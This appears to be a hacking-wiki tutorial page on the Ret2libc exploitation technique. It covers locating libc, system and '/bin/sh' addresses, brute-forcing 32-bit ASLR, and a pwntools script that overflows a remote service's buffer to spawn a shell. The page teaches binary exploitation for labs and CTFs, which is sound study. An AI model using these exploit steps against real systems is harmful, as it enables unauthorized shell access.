 # Ret2lib

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## **Basic Information**

The essence of **Ret2Libc** is to redirect the execution flow of a vulnerable program to a function within a shared library (e.g., **system**, **execve**, **strcpy**) instead of executing attacker-supplied shellcode on the stack. The attacker crafts a payload that modifies the return address on the stack to point to the desired library function, while also arranging for any necessary arguments to be correctly set up according to the calling convention.

### **Example Steps (simplified)**

* Get the address of the function to call (e.g. system) and the command to call (e.g. /bin/sh)
* Generate a ROP chain to pass the first argument pointing to the command string and the execution flow to the function

## Finding the addresses

* Supposing that the `libc` used is the one from current machine you can find where it'll be loaded in memory with:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

If you want to check if the ASLR is changing the address of libc you can do:

```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```

* Knowing the libc used it's also possible to find the offset to the `system` function with:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

* Knowing the libc used it's also possible to find the offset to the string `/bin/sh` function with:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### Using gdb-peda / GEF

Knowing the libc used, It's also possible to use Peda or GEF to get address of **system** function, of **exit** function and of the string **`/bin/sh`** :

```
p system
p exit
find "/bin/sh"
```

### Using /proc/\<PID>/maps

If the process is creating **children** every time you talk with it (network server) try to **read** that file (probably you will need to be root).

Here you can find **exactly where is the libc loaded** inside the process and **where is going to be loaded** for every children of the process.

![](<../../../../.gitbook/assets/image (95).png>)

In this case it is loaded in **0xb75dc000** (This will be the base address of libc)

## Unknown libc

It might be possible that you **don't know the libc the binary is loading** (because it might be located in a server where you don't have any access). In that case you could abuse the vulnerability to **leak some addresses and find which libc** library is being used:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

And you can find a pwntools template for this in:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Bypassing ASLR in 32 bits

These brute-forcing attacks are **only useful for 32bit systems**.

* If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* If attacking a remote server, you could try to **burte-force the address of the `libc` function `usleep`**, passing as argument 10 (for example). If at some point the **server takes 10s extra to respond**, you found the address of this function.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

In this example ASLR brute-force is integrated in the code and the vulnerable binary is loated in a remote server:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
    p = ""
    p += p32(off + 0x0003cb20) #system
    p += "CCCC" #GARBAGE, could be address of exit()
    p += p32(off + 0x001388da) #/bin/sh
    payload = 'A'*0x20010 + p
    c.send(payload)
    c.interactive()
```

## x64 Ret2lib Code Example

Check the example from:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (or puts)

This allows to **leak information from the process** by calling `printf`/`puts` with some specific data placed as an argument.

## Ret2printf

This basically means abusing a **Ret2lib to transform it into a `printf` format strings vulnerability** by using the `ret2lib` to call printf with the values to exploit it (sounds useless but possible):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Other Examples & references

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
  * Ret2lib, given a leak to the address of a function in libc, using one gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
  * 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
  * 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
  * 64 bits, no pie, no canary, no relro, nx. Uses write function to leak the address of write (libc) and calls one gadget.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

